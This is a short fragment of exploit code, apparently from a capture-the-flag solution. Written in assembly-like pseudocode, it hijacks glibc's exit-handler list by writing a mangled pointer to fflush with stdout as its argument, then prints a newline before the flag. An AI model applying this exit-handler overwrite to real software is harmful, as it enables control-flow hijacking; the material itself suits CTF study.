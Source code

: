 ```asm
// put fflush into initial->fns[1]
// also put stdout after it as argument
int64 r0 = r24 + 0x7f130 // fflush addr
call _mangle_pointer

int64 [tmp_mem + 8] = r0
int64 r0 = 4 // ef_cxa
int64 [tmp_mem] = r0
int64 r0 = r24 + 0x21b780 // stdout addr
int64 [tmp_mem + 16] = r0
int64 r0 = r25 + 0x30
int64 r1 = address([tmp_mem])
int64 r2 = 0x18
call _write


// print newline so that the flag is at the beginning of the line
int64 r0 = address([newline])
int64 r1 = address[parlist]
call _printf

int64 r0 = 0
return

_main end
code end

```